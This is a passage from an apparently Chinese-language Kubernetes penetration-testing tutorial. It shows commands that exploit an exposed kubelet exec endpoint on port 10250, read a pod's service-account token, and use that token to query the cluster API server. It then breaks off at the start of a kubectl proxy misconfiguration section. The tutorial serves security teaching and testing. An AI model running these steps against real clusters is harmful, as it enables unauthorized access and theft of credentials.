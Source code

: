 执行如下语句查看命令执行结果

```bash
[root@localhost ~]# docker run -it --rm joshgubler/wscat -c "https://192.168.4.68:10250/cri/exec/zEKYcaZt" --no-check
```

[![](assets/1701826061-c558581c5eba734c4c3521ce28c120d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171431-e7d3cdb6-7316-1.png)  
Step 7：连接 K8s Master 地址  
此时我们是在 Node 的 Pod 里，在反弹的 Shell 里查看 Master 的内部 IP  
[![](assets/1701826061-6bde7a6d4b7b6266caa7d9221204dbdd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171442-eecdfcfe-7316-1.png)  
尝试连接 K8s Master 地址

```bash
[root@localhost ~]# TOKEN_VALUE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
[root@localhost ~]# curl -k --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H  "Authorization: Bearer $TOKEN_VALUE" https://10.0.0.1:443/api/v1/pods
```

### kube-proxy 配置错误

**基本介绍**  
Kubectl Proxy 代理程序既能作为 API Server 的反向代理，也能作为普通客户端访问 API Server 的代理，当开发人员使用 Kubectl proxy 将 API Server 外置时攻击者可以通过使用和 K8s API Server 未授权一样的漏洞实施攻击操作  
**漏洞利用**  
Step 1：通过执行以下命令启动我们自定义的

